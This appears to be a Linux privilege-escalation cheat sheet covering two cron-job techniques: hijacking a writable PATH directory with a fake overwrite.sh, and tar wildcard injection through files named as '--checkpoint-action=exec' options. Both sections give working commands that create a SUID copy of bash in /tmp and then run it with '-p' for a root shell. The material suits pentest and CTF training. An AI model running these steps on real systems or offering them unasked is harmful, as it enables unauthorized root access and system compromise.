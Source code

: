 ### PATH Environment Variable
Check if a cron job script does not use an absolute path and if one of the PATH directories is writable to.
```bash
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root overwrite.sh
drwxr-xr-x 5 user user 4096 May 15  2020 user
```

Assume that overwrite.sh gets executed every minute.

Create a file called `overwrite.sh` in `/home/user` that creates a copy of `/bin/bash` in `/tmp` with the SUID bit set.
```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

Run `/tmp/rootbash -p` to get a root shell.
```bash
-rwsr-sr-x 1 root root 926536 Sep 23 21:31 rootbash
/tmp/rootbash -p
```

### Wildcard
Check if a cronjob script is running a tar command with a wildcard.
```bash
tar czf /tmp/backup.tar.gz *
```

Assume that the tar command gets ran as part of a script every minute in `/home/user`.

It is possible to have a script run and execute arbitrary commands using tar checkpoint options as filenames.
```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=script.sh
```

The wildcard will include these files in the tar command, in which tar will treat them as command line options rather than filenames.

Run `/tmp/rootbash -p` to spawn a root shell.
```bash
-rwsr-sr-x 1 root root 926536 Sep 23 23:18 rootbash
/tmp/rootbash -p
```

